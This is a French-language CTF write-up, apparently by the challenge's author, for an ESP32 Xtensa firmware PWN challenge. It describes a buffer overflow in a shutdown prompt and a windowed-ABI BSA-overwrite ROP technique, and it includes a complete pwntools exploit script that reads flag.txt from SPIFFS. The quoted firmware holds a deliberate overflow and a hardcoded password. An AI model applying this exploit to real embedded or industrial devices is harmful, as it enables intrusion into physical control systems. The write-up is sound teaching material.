



# Writeup - FSP

**Category**: PWN  \
**Author**: [Nosiume](https://github.com/Nosiume) \
**Difficulty**: Très Difficile \
**Challenge Description**: \


Lors d'un pentest, nous avons trouvé une interface bizarre disponible en CLI qui semble être connectée à un ESP32
pour gérer différents composants industriels de notre cîble ! En faisant un peu plus de recherche nous avons pu trouver
le firmware exécuté par l'ESP32. Pensez-vous être capable de l'exploiter afin d'extraire les secrets cachés dans la mémoire de cet appareil ??

(Le flag est dans la partition SPIFFS de l'ESP32 au chemin "flag.txt")

**Artifact Files**: \
[dist.zip](../files/dist.zip)

## Disclaimer

Ce challenge est issue de mes recherches personnelles sur l'exploitation d'un buffer overflow classique sur une ESP32, spécifiquement sur l'architecture **Tensilica Xtensa**. L'exploit final est l'issue de plusieurs heures de déboggage avec ma compréhension approximative de l'environnement. Je recommende **vivement** de regarder les writeups des joueurs ainsi que les articles de recherches cités dans ce writeup afin de mieux comprendre les concepts.

## Concept du challenge

Ce challenge est un challenge un peu particulié puisqu'il s'âgit d'exploitation dans une architecture embarquée assez rare !
Le firmware nous ait donné dans le fichier zip. Dans celui-ci, on peut effectuer une commande `file` pour avoir plus d'informations :

```
firmware.elf: ELF 32-bit LSB executable, Tensilica Xtensa, version 1 (SYSV), statically linked, with debug_info, not stripped
```

On est sur une architecture **Tensilica Xtensa** !! pas très fréquent mais quand même exploitable comme nous allons le voir plus tard.

Le contexte d'exécution nous est aussi donné assez clairement. Ce firmware s'exécute sur une [esp32](https://fr.wikipedia.org/wiki/ESP32).


Le docker est aussi donné, ce qui permet de mettre en place une session de debug avec qemu (gdb-multiarch supporte nativement l'architecture Xtensa).

Lorsque nous nous connectons à la remote, nous avons premièrement une phase de démarrage (bootloader) de l'esp32 qui s'affiche à l'écran avant d'arriver sur une interface "industrielle" de contrôle de machines diverses :



On a plusieurs commandes à disposition qui permettent d'intéragir avec les machines évoquées ainsi qu'un système de backup de config. On peut aussi arrêter les systèmes avec la commande `shutdown` sur laquelle nous reviendrons plus tard !

## Bug

Le bug est très basique dans ce challenge. Pour des raisons de simplicité encore une fois, je vais prendre des extraits du code en clair qui n'était pas donné aux joueurs mais vous devriez obtenir des informations similaires avec une phase de reverse sur des outils comme **Ghidra** ou **IDA**.

Nous allons faire un focus sur la commande **shutdown** et sa fonction correspondante **shutdownPrompt**:

```cpp

#define BUFFER_SIZE 256

// ...

void shutdownPrompt() {
    char user[32];
    char pass[32];
    char retry[8];

    while (true) {
        Serial.println("Admin permissions are required for shutting down the systems.");
        Serial.print("Username: ");
        readSerialLine(user, BUFFER_SIZE);

        Serial.print("Password: ");
        readSerialLine(pass, BUFFER_SIZE);

        if (strcmp(user, "admin") == 0 && strcmp(pass, "sup3rl33tp4ssw0rd") == 0) {
            Serial.println("shutting down all systems...");
            executeShutdown();
            return;
        }

        Serial.print("Wrong username or password. Try again? [y/N]: ");
        readSerialLine(retry, sizeof(retry));

        if (tokenEquals(retry, "y") || tokenEquals(retry, "yes")) {
            continue;
        }

        if (retry[0] != '\0' && !tokenEquals(retry, "n") && !tokenEquals(retry, "no")) {
            Serial.println("Please answer 'yes' or 'no'.");
        }

        setNoticef("Shutdown canceled.");
        drawDashboard();
        return;
    }
}
```

Le bug est plus que frappant dans cette fonction. On a un appel à la fonction `readSerialLine` qui, comme son nom l'indique, lit une ligne (jusqu'à un CRLF : `\r\n`) pour une taille `BUFFER_SIZE` qui est évaluée à **256 octets**. Hors, notre buffer fait bien **32 octets**. On a un dépassement énorme dans notre buffer ! Ce qui nous amène donc à un buffer overflow très conséquent.

## Exploitation

Le problème maintenant, c'est l'architecture et le contexte d'exécution. Un esp32 tourne sur un firmware fixe, il n'y a pas de protection kernel puisque notre firmware est le seul logiciel qui tourne sur cet appareil et toutes les adresses sont constantes. On a donc pas besoin de leaks pour faire une ROP chain.

Mais comment faire une ROP chain sur cette architecture **Xtensa** ??

Et bien c'est là où ça se corse !

Deux articles de recherche m'ont bien aidé pendant la réalisation de ce challenge :
- [Challenges of Return-Oriented-Programming on the Xtensa Hardware Architecture](https://arxiv.org/pdf/2201.06785)
- [ROP gadget generation on the Xtensa LX7](https://dr.lib.iastate.edu/server/api/core/bitstreams/87e421f4-7618-48a9-aff1-57043aa464e2/content)

En lisant ces articles, vous allez apprendre que l'architecture Xtensa a deux ABIs (Application Binary Interfaces) disponibles. **Call0** et **Windowed** .

L'ABI **Call0** se comporte de manière similaire à d'autres architectures plus connues. Elle enregistre l'appelant d'une fonction dans la stack et retourne sur celui-ci en récupérant la valeure depuis la stack. (Pas de grosses différences avec amd64 ou autres). Mais vous vous en doutez, ça serait bien trop simple si on était sur l'ABI **Call0**.

On a donc un firmware qui fonctionne en ABI **Windowed**. Mais quuels sont les différences entre les deux ABIs ?

Et bien l'ABI windowed fait en sorte que les fonctions utilisent une **tranche de registres** spécifiée dans l'appel de la fonction :
- call4 : Utilise une tranche de 4 registres
- call8 : Utilise une tranche de 8 registres
- call12 : Utilise une tranche de 12 registres
- callx4 : Utilise une tranche de 4 registres
- callx8 : Utilise une tranche de 8 registres
- callx12 : Utilise une tranche de 12 registres

Par tranche, j'entends que un registre a0 devient a3 pour un décalage de 4 par exemple.

De cette manière, si on a 32 registres disponibles, on peut enchaîner 8 calls `call(x)4` sans jamais enregistrer une seule adresse dans la stack ! A chaque retour de fonction, le programme va chercher la tranche de registre précédente et reprend l'exécution à partir de là.

Aussi, vous remarquerez que les instructions `ret(w).n` et `entry ...` déterminent le nombre de registre de la tranche à partir du MSB (Most significant byte) de l'adresse appelée. En gros, 0x40000000 et 0xc0000000 appellent la même fonction, avec une tranche différente.

Mais vous vous en doutez, il y a bien un moment où on atteint la limite de registres disponibles (ils ne sont pas infinis !).

C'est donc pour cela qu'un gestionnaire d'exception : WindowOverflow(n) et WindowUnderflow(n) existent. L'un pour enregistrer l'état des registres dans la stack et l'autre pour les réstaurer.

Pour chacun des enregistrements, on a besoin d'une BSA (Base Save Area) qui enregistre les registres a0 à a3 et une ESA (Extra Save Area) qui enregistre les registres supplémentaires.

  \
Depuis l'article cité précédemment *Challenges of Return-Oriented-Programming on the Xtensa Hardware Architecture*.

Vous remarquerez que la **BSA** de l'appelant est enregistré dans la stack frame de l'appelé. On peut donc viser la réécriture d'une **BSA** comme cîble viable pour une attaque par ROP.

Pour ce challenge, nous n'avons pas besoin de chaîner un grand nombre de gadgets. En réalité nous avons uniquement besoin d'un saut précis dans les fonctions de traitement de SPIFFS.

## SPIFFS

SPIFFS  est un filesystem pour les devices flash comme l'esp32. Il permet de simuler une arborescence de fichiers à l'intérieur de puces programmable sans qu'il y en ait "réellement" un. SPIFFS va chercher une partition de la mémoire flash donnée par le programmeur et va récupérer et stocker ses informations relatives aux fichiers dans celle-ci.

Ce programme utilise SPIFFS pour son système de backup, qui est en réalité un simple fichier texte au format `cfg_<nom>.txt` enregistré dans la mémoire de la puce.

La gestion des créations et chargements de ces backups est faite dans les fonctions suivantes :

```cpp
void listConfigurations() {
    if (!fileSystemReady) {
        Serial.println("Storage unavailable. Save/load is disabled.");
        return;
    }

    File root = SPIFFS.open(Storage::DIR_ROOT);
    if (!root) {
        Serial.println("Could not open storage root.");
        return;
    }

    Serial.println();
    Serial.println("Saved backups:");

    bool found = false;
    for (File file = root.openNextFile(); file; file = root.openNextFile()) {
        char profileName[Storage::PROFILE_NAME_MAX + 1];
        if (!extractProfileName(file.name(), profileName, sizeof(profileName))) {
            continue;
        }
        found = true;
        Serial.printf("  %s (%lu bytes)\n", profileName, static_cast<unsigned long>(file.size()));
    }

    if (!found) {
        Serial.println("  none");
    }

    Serial.println();
}

bool readConfiguration(const char *rawName,
        PanelConfig &config,
        char *profileName,
        size_t profileNameSize,
        char *path,
        size_t pathSize,
        bool printRaw) {
    bool versionOk = false;

    if (!fileSystemReady) {
        setNoticef("Storage unavailable. Save/load is disabled.");
        return false;
    }
    if (!sanitizeProfileName(rawName, profileName, profileNameSize)) {
        setNoticef("Backup name must be 1-16 chars using letters, numbers, '-' or '_'.");
        return false;
    }

    buildConfigPath(profileName, path, pathSize);
    if (!SPIFFS.exists(path)) {
        setNoticef("Backup not found: %s.", path);
        return false;
    }

    File file = SPIFFS.open(path, FILE_READ);
    if (!file) {
        setNoticef("Could not open %s for reading.", path);
        return false;
    }

    captureConfiguration(config);

    while (file.available()) {
        char line[96];
        size_t lineLength = file.readBytesUntil('\n', line, sizeof(line) - 1);
        line[lineLength] = '\0';
        if (printRaw) {
            Serial.println(line);
        }
        if (lineLength == 0) {
            continue;
        }
        trimWhitespace(line);
        if (line[0] == '\0') {
            continue;
        }

        char *separator = strchr(line, '=');
        if (separator == nullptr) {
            continue;
        }

        *separator = '\0';
        char *value = separator + 1;
        trimWhitespace(line);
        trimWhitespace(value);

        if (tokenEquals(line, "version")) {
            versionOk = tokenEquals(value, "1");
        } else if (tokenEquals(line, "mode")) {
            snprintf(config.mode, sizeof(config.mode), "%s", value);
        } else if (tokenEquals(line, "pumpA")) {
            config.pumpAEnabled = atoi(value) != 0;
        } else if (tokenEquals(line, "pumpB")) {
            config.pumpBEnabled = atoi(value) != 0;
        } else if (tokenEquals(line, "intake")) {
            config.intakeOpen = atoi(value) != 0;
        } else if (tokenEquals(line, "bypass")) {
            config.bypassOpen = atoi(value) != 0;
        } else if (tokenEquals(line, "conveyor")) {
            config.conveyorRunning = atoi(value) != 0;
        } else if (tokenEquals(line, "speed")) {
            config.conveyorSpeedPct = static_cast<uint8_t>(clampf(atoi(value), 0.0f, 100.0f));
        } else if (tokenEquals(line, "heater")) {
            config.heaterEnabled = atoi(value) != 0;
        } else if (tokenEquals(line, "target")) {
            config.heaterTargetC = clampf(static_cast<float>(atof(value)), 40.0f, 220.0f);
        } else if (tokenEquals(line, "current")) {
            config.heaterCurrentC = clampf(static_cast<float>(atof(value)), 18.0f, 240.0f);
        } else if (tokenEquals(line, "level")) {
            config.tankLevelPct = clampf(static_cast<float>(atof(value)), 0.0f, 100.0f);
        } else if (tokenEquals(line, "pressure")) {
            config.pressureBar = clampf(static_cast<float>(atof(value)), 0.0f, 10.0f);
        } else if (tokenEquals(line, "flow")) {
            config.flowPct = clampf(static_cast<float>(atof(value)), 0.0f, 100.0f);
        }
    }

    file.close();

    if (printRaw) {
        Serial.println();
    }

    if (!versionOk) {
        setNoticef("Backup %s is not a supported panel config.", path);
        return false;
    }

    return true;
}

bool saveConfiguration(const char *rawName) {
    PanelConfig config;
    char profileName[Storage::PROFILE_NAME_MAX + 1];
    char path[Storage::CONFIG_PATH_MAX];

    if (!fileSystemReady) {
        setNoticef("Storage unavailable. Save/load is disabled.");
        return false;
    }
    if (!sanitizeProfileName(rawName, profileName, sizeof(profileName))) {
        setNoticef("Backup name must be 1-16 chars using letters, numbers, '-' or '_'.");
        return false;
    }

    captureConfiguration(config);
    buildConfigPath(profileName, path, sizeof(path));
    SPIFFS.remove(path);

    File file = SPIFFS.open(path, FILE_WRITE);
    if (!file) {
        setNoticef("Could not open %s for writing.", path);
        return false;
    }

    file.printf("version=1\n");
    file.printf("mode=%s\n", config.mode);
    file.printf("pumpA=%d\n", config.pumpAEnabled ? 1 : 0);
    file.printf("pumpB=%d\n", config.pumpBEnabled ? 1 : 0);
    file.printf("intake=%d\n", config.intakeOpen ? 1 : 0);
    file.printf("bypass=%d\n", config.bypassOpen ? 1 : 0);
    file.printf("conveyor=%d\n", config.conveyorRunning ? 1 : 0);
    file.printf("speed=%u\n", config.conveyorSpeedPct);
    file.printf("heater=%d\n", config.heaterEnabled ? 1 : 0);
    file.printf("target=%.2f\n", config.heaterTargetC);
    file.printf("current=%.2f\n", config.heaterCurrentC);
    file.printf("level=%.2f\n", config.tankLevelPct);
    file.printf("pressure=%.2f\n", config.pressureBar);
    file.printf("flow=%.2f\n", config.flowPct);
    file.close();

    setBackupLabel(profileName);
    setNoticef("Saved backup to %s.", path);
    return true;
}
```

La fonction qui nous intéresse le plus est la fonction `readConfiguration` puisqu'elle fait des opérations de lecture sur la partition SPIFFS. (C'est ce que nous voulons pour lire `flag.txt`!!)

Avec un saut bien précis et une bonne configuration de la BSA écrasée, on pourrait sauter ici :

```asm
0x400e01d4 <+60>:	mov.n	a11, a6
0x400e01d6 <+62>:	l32r	a10, 0x400d1154 <_stext+4404> (0x7837fb3f)
0x400e01d9 <+65>:	call8	0x400f5a3c <fs::FS::exists(char const*)>
0x400e01dc <+68>:	mov.n	a2, a10
0x400e01de <+70>:	bnez.n	a10, 0x400e01ec <readConfiguration(char const*, PanelConfig&, char*, unsigned int, char*, unsigned int, bool)+84>
0x400e01e0 <+72>:	mov.n	a11, a6
0x400e01e2 <+74>:	l32r	a10, 0x400d11ac <_stext+4492> (0x1060403f)
0x400e01e5 <+77>:	call8	0x400deed0 <setNoticef(char const*, ...)>
0x400e01e8 <+80>:	j	0x400e0487 <readConfiguration(char const*, PanelConfig&, char*, unsigned int, char*, unsigned int, bool)+751>
0x400e01eb <+83>:	addx4	a14, a2, a0
0x400e01ee <+86>:	subx8	a13, a1, a0
0x400e01f1 <+89>:	ssiu	f12, a13, 24
0x400e01f4 <+92>:	l32r	a11, 0x400d1154 <_stext+4404> (0x7837fb3f)
0x400e01f7 <+95>:	mov.n	a10, a1
0x400e01f9 <+97>:	call8	0x400e0cc0 <fs::FS::open(char const*, char const*, bool)>
```

(N'oubliez pas que a6 étant un registre issue d'une rotation précédente, nous le contrôlons à travers notre BSA)

## Script d'exploit

Pour le script d'exploit j'ai donc du calculer le décalage vers la première BSA frame (un cyclique suffit pour voir les premiers registres se modifier). Un avantage que nous avons est le fait que les adresses sont tout le temps fixe dans notre contexte d'exécution. Donc même les données utilisateurs sur la stack sont a des adresses constantes ce qui facilite grandement l'exploitation puisque nous pouvons orienter les pointeurs SP vers des zones que nous contrôlons.

Pour être honnête, à partir d'ici j'ai surtout debuggé très dur et tâtonné au debugger pour créer un payload valide !
J'ai d'abord fait une PoC pour un print arbitraire de données dans le programme et ensuite étendu avec la tactique mentionnée précédemment et **BEAUCOUP** de débuggage pour régler chaque problème et tenter des approches différentes :

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'info'
context.bits = 32

if args.REMOTE:
    # remote docker
    io = remote("localhost", 1337)
else:
    # IDF.py met le port 5555 en écoute quand on débug avec gdb
    io = remote("localhost", 5555)

# pwn here
context.log_level = 'info'
io.sendlineafter(b'panel>', b'shutdown')

offset_bsa = 46

payload = b'sup3rl33tp4ssw0rd\x00'
retwn = 0x400e04ab

# En modifiant le bit de poid fort de l'addresse de notre jump sur read_file on change
# le handler d'underflow qui nous permet de prendre le contrôle du programme de WindowUnderflow4 à WindowUnderflow8
# ce qui nous permet d'avoir plus de contrôle sur les registres
read_file = 0x800e01d4

# Objets extraits de la mémoire (il n'y a pas de randomization des addresses sur ce genre de systèmes donc tout est constant)
spiffs_obj = 0x3ffb3778
serial0 = 0x3ffb3640

payload += flat({
    offset_bsa: [
        p32(read_file),  # On jump au milieu de la fonction readConfiguration après buildPath pour injecter notre propre path /flag.txt valide
        p32(0x3ffb7e70), # a1 => pointe vers la prochaine stack frame + 16
        p32(0x3ffb7e70), # /flag.txt
        p32(serial0),    # Pour éviter le crash sur le print du flag il faut un objet serial valide et qui pointe vers notre sortie console

        p32(retwn),      # Juste un gadget retw.n
        p32(0x3ffb7e70), # Pointeur valide qui fait pas crash puisqu'il pointe vers sa propre frame + 16 donc la frame est valide :')
        p32(0xdeadbeef), # Placeholder
        p32(spiffs_obj), # Un peu pareil que pour le serial, l'objet SPIFFS est utilisé pour load la partition file system avec /flag.txt donc éssentiel à l'exploit

        b'/flag.txt' # 0x3ffb7e70 pointe ici !
    ]
})


io.sendlineafter(b': ', b'admin\x00')
io.sendlineafter(b': ', payload)

io.recvuntil(b'panel> ')
data = io.recvuntil(b'}') # Avoid potential undecodable junk after flag

info("extracted from memory : " + data.decode())

# Pas d'interactive (on se fou pas mal du crash dump)
io.close()
```

On obtient bien le résultat suivant :



Très honnêtement ce challenge m'a pris énormément de temps à faire et à résoudre. Encore maintenant, je ne comprends pas très bien tout ce qui se passe sur cette architecture et je voulais donc partager ma douleur avec vous :)

Si vous êtes un expert ou avez trouver une solve alternative à mon challenge qui est plus contrôlée et mieux expliquée partagez là avec les joueurs ! (et surtout avec moi : `nosiume` sur discord)

